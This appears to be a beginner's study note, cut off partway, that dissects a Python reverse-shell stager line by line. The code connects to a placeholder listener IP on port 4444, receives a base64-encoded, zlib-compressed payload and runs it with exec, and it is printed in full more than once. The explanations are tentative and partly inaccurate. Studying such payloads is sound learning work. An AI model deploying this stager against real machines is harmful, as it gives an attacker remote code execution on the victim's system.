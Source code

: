 l=struct.unpack(&#x27;&gt;I&#x27;,s.recv(4))[0]
d=s.recv(l)
while len(d)&lt;l:
	d+=s.recv(l-len(d))
exec(zlib.decompress(base64.b64decode(d)),{&#x27;s&#x27;:s})</code></pre><p id="d2fa2466-39d6-4ba9-9930-37d107a23a46" class="">Which is much simpler than I thought. </p><hr id="95f42176-5a83-4fb5-86ee-4e7f99d29bfa"/><h3 id="5e418dea-2799-48a0-9a15-f77f51ea432e" class="">Breaking down the payload</h3><p id="8f0092b2-6ba8-4099-9933-83bb52fe58d8" class="">
</p><p id="dc51333f-cada-46f0-ad4f-74cce399ac50" class="">To break this down. we import a bunch of library&#x27;s in this line. This is code that has already been written that we want to use</p><pre id="d43f0ddd-4fe6-4867-b0e8-e1d6faba599f" class="code"><code>import socket,zlib,base64,struct,time</code></pre><ul id="fa6fee0c-25d6-472c-9422-133dcc2c7792" class="bulleted-list"><li style="list-style-type:disc">Socket - Low-level networking interface</li></ul><ul id="20e2c10c-6408-4b1c-ba52-a4fece87ff80" class="bulleted-list"><li style="list-style-type:disc">zlib - Compression and decompression</li></ul><ul id="1a456818-2545-4052-9313-4d820c3bedaa" class="bulleted-list"><li style="list-style-type:disc">base64 - To encode  and decode in base64</li></ul><ul id="daf08b06-8a7b-4cf6-979e-bb74f8b1754b" class="bulleted-list"><li style="list-style-type:disc">struct - Converts between python and C structs (think of it as an list that can have different variable types)</li></ul><ul id="dcfba2d5-1ecc-4f30-9348-322db386b116" class="bulleted-list"><li style="list-style-type:disc">time - Lets us perform time related functions</li></ul><hr id="3c00afe1-b48b-4c74-8fae-ec9fc1d1e101"/><p id="1d3e937b-9015-429f-ab40-648b67ad990c" class="">
</p><p id="89fe1c58-29f7-40a8-8b6e-6dc498ae30ae" class="">Now lets move on to the loop</p><pre id="dab98045-1c5b-4f2c-a701-54cf581ff20c" class="code"><code>for x in range(10): // Here we are saying to repeat 10 times
	try:
		s=socket.socket(2,socket.SOCK_STREAM)
		s.connect((&#x27;LISTENINGSERVER_IP&#x27;,4444))
		break
	except:
		time.sleep(5)</code></pre><p id="9c41dd8a-729c-446e-8228-cfa8d20db379" class="">
</p><p id="e2cfdacf-56a1-4ffc-a52e-efba46edd2af" class="">This will repeat 10 times.</p><p id="0533c43e-4dd6-4760-860e-23e440fa8de6" class="">It will attempt (try) to connect to the server, IF it works, then it will stop trying again (break). IF it does not work, then it will wait for 5 seconds, then try again (until the 10 attempts are over)</p><hr id="587e5041-23f1-412f-a23b-68a0ed4afeb7"/><p id="c7faf631-ac75-4348-9f53-223edc1cde6a" class="">
</p><pre id="eb34005b-df7c-4069-b2a9-77112e1b2759" class="code"><code>l=struct.unpack(&#x27;&gt;I&#x27;,s.recv(4))[0]
d=s.recv(l)
while len(d)&lt;l:
	d+=s.recv(l-len(d))
exec(zlib.decompress(base64.b64decode(d)),{&#x27;s&#x27;:s})</code></pre><p id="518541ea-af0a-4201-8875-de856b7ddb63" class="">
</p><p id="14617c8c-156f-42d4-9690-05ee910c4e75" class="">I have no idea whats going on here. But I will try to figure it out line by line.</p><p id="fe1980ad-23a0-4a81-a496-d607f237607a" class="">
</p><pre id="05e8a7eb-43db-4bcd-b2db-09e91a9885ae" class="code"><code>l=struct.unpack(&#x27;&gt;I&#x27;,s.recv(4))[0]</code></pre><p id="90b6cc2e-9727-4b64-8633-8aa65a43166c" class="">
</p><p id="9ba5660a-a486-4387-8bb2-ea77cd54fec2" class="">struct.unpack() is a function that unpacks</p><p id="8c80b8b2-8c9d-47e5-a14b-d25b813f7688" class=""><mark class="highlight-yellow">&#x27;&gt;I&#x27;</mark> is the format/size of the struct</p><p id="78ab6b9e-1509-4c00-b929-ef1bc84a7fe1" class="">Remember how we connected to the server using the variable <mark class="highlight-teal">s</mark></p><p id="d49a438e-e960-434a-aa83-636b2a528d47" class="">Well by now we have a connection, so we use <mark class="highlight-teal">s.recv(4)</mark> to receive data from the server. In this case 4 represents an argument for the function (Data that we give it) which is the buff-size we request (Think of it like size of the data)</p><p id="2fec1aa9-ed31-4003-9648-bda8d5761984" class="">So this line unpacks the data from the server, of size <mark class="highlight-yellow">&#x27;&gt;I&#x27;</mark>,  then takes the first element ([0])</p><p id="cd82c55f-78bc-44e5-b077-8e802541d2e3" class="">
</p><p id="f6a3adfc-3d3f-4a81-8274-cf52044c49b3" class="">Im guessing that first element we just got is the size of the next data that will be received, because we take it and use it as an argument to receive more data from the server.</p><pre id="70146fe9-671b-48d7-8fed-0a278e743a7d" class="code"><code>d=s.recv(l)</code></pre><p id="7d23219e-af78-4e02-ab35-02ea731c7544" class="">
</p><p id="33413084-bf23-420a-9d8d-76adcfe76cfd" class="">So now d is the next set of data we got</p><pre id="c4d986b8-223e-4010-8083-ff1dd5027978" class="code"><code>while len(d)&lt;l:
